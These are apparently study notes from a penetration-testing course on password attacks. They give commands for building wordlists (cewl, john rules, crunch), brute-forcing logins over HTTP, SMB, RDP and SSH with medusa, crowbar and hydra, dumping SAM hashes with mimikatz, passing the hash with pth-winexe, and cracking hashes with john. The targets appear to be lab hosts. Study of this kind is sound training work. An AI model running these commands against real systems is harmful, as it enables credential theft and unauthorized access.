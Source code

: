# Password Attacks

## Wordlists

`cewl` generates a custom wordlist from scraping a website. Below we specify `-m 6` for words with a minimum of six characters, and `-w` to write to a custom file:

```bash
cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt
wc -l megacorp-cewl.txt
grep Nano megacorp-cewl.txt
```

If it weas discovered that a password policy required two digits at the end, we can mutate wordlists to include this permutation. Edit `/etc/john/john.conf`. The $ appends it to the password in the worldist.

Under the `[List.Rules:Wordlist]` section we can add:
```bash
# Add two numbers to the end of each password
$[0-9]$[0-9]
```

Then run with our generated wordlist to create the additional mutated passwords:  
`john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt`

## Brute Force Wordlists

A pattern such as the below can have a brute force list generated using crunch. For example:  
`[Capital Letter]  [2 x lower case letters]  [2 x special chars]  [3 x numeric]`  

This can then be generated in crunch, also specifying the minimum and maximum length, and the wordlist with `-t`.

`crunch 8 8 -t ,@@^^%%%`  

Where: @ = lower case alpha, , = upper case alpha, % = numeric, ^ = special characters.

`crunch` can also be used to generate a password list based on a character set:  
`crunch 4 6 0123456789ABCDEF -o crunch.txt`

Finally, pre defined character sets such as /usr/share/crunch/charset.lst can be used to generate lists:
```bash
# cat /usr/share/crunch/charset.lst
mixalpha-numeric-all       = [abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()-_+=~`[]{}|\:;"'<>,.?/]

crunch 4 6 -f /usr/share/crunch/charset.lst mixalpha -o crunch.txt
```

# Network Service Attacks

## HTTP htaccess

Medusa usage for htaccess attack:  

`medusa -h 192.168.100.100 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin`

Medusa works with a variety of other protocols:  
`medusa -d`  E.g, smb:  
`medusa -h 192.168.141.10 -u admin -P crunch_smb.txt -M smbnt`

## RDP 

Invoke `crowbar` with `-b` for protocol, `-s` for target server, `-u` for username, `-C` for wordlist, and `-n` for number of threads:

```bash
sudo apt install crowbar
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
```

RDP does not reliabliy handle multiple threads.

## SSH

Using `hydra` specify `-l` for the username, `-P` for the wordlist, and `procotol://IP for the target protocol and IP.

hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1

## HTTP POST

Get help from hydra:  
`hydra http-form-post -U`  

We then need to look at form and determine the inputs, and find the condition string if a login is unsuccesful.

Using `-l` for username, `-P` for password wordlist, `-vV` for verbose output and `-f` to stop on first succesful test we can use:  
`hydra 192.168.141.10 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f`  

# Password Hashes

We can identify a hash with `hashid`.

Training material slightly out of date, new hash type yescrypt:
https://manpages.debian.org/unstable/libcrypt-dev/crypt.5.en.html

Dump passwords with mimikatz.exe:

```
cmd
C:\Tools\password_attacks\mimikatz.exe
privilege::debug
token::elevate
lsadump::sam
```

## Passing the Hash

We can use `pth-winexe` to conduct pass the hash attacks.

In this example `-U` specifies the hash, prepended by the username, followed by the UNC format SMB share and the command to be ran:
`pth-winexe -U offsec%61fc5cc76eab45fcf27f8b0c01386132:2892d26cdf84d7a70e2eb3b9f05c425e //192.168.141.10 cmd`

## Password Cracking

With our mimikatz hashes:
```bash
sudo john hash.me --format=NT
# Add a wordlist
john --wordlist=/usr/share/wordlists/rockyou.txt hash.me --format=NT
# Use rules for word mangling
john --rules --wordlist=/usr/share/wordlists/rockyou.txt hash.me --format=NT
# Unshadow Linux based hashes first
unshadow passwd-file.txt shadow-file.txt > unshadow
# Then proceed
john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadow
# Note that yescrypt a newer hash type doesn't seem to be picked up by default:
https://security.stackexchange.com/questions/252665/does-john-the-ripper-not-support-yescrypt
john --rules --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt unshadow


